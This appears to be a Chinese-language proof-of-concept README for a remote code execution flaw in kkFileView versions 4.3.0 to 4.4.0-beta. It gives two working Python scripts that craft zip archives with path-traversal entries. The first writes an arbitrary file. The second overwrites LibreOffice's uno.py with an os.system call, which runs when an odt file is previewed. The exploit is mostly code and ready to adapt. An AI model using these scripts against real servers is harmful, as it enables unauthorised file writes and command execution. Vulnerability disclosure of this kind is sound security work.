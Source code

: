 # kkFileView-v4.3.0-RCE-POC

## v4.3.0~v4.4.0-beta

https://github.com/kekingcn/kkFileView/releases/tag/v4.3.0

此版本为官方源代码最新版

### 环境部署

本地源码启动或者docker部署

![img](images/(null)-20240415195822360.(null))

### 任意文件上传

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意`hack.zip`，注意里面必须有一个正常文件，例如`test`，便于创建`hack.zip_`缓存文件

![img](images/(null)-20240415195822385-3182302.(null))

上传文件并预览

![img](images/(null)-20240415195822385.(null))

![img](images/(null)-20240415195822430.(null))

发现成功穿越

### RCE

可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffic，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意的zip包

暂时无法在飞书文档外展示此内容

上传并预览

![img](images/(null)-20240415195822638.(null))

再随便上传一个odt文件，另其发起libreoffice任务

暂时无法在飞书文档外展示此内容

上传并预览

![img](images/(null)-20240415195822411.(null))

可以看到命令成功被执行

![img](截屏2024-04-15 20.08.03.png)

uno.py中也确实被写入了内容

![img](images/(null)-20240415195822672.(null))
